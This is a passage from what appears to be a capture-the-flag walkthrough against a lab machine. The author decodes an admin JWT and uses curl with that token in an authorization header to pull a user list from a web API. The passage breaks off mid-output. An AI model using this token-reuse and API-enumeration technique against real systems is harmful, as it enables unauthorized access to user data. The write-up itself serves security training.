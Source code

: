 With username admin it returned a token! I can use
[jwt.io](https://jwt.io) to decode it:

![](/img/1559161097950.png)

#### user API

Now that I have a token, I can try to use it. Based on the error message
thus far, I suspect that [this
code](https://gist.github.com/narenaryan/4d03bb4ccda5bb634a3cb5c51f5e79a7)
is what's being used to validiate API requests. If that's true, I need
to put the token into a header named either `x-access-token` or
`authorization`.

When I do that, I get back users (without piped in `jq` for
readability):



    root@kali# curl -s http://10.10.10.137:3000/users -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzYwNDk0LCJleHAiOjE1Njg0NDY4OTR9.3hVk0ASf7R
    fGtwbnAerIRY1V6n5TWjrETlBqg7KkCtQ" | jq .
    [
      {
        "ID": "1",
        "name": "Admin",
        "Role": "Superuser"
      },
      {
        "ID": "2",
        "name": "Derry",
        "Role": "Web Admin"
      },
      {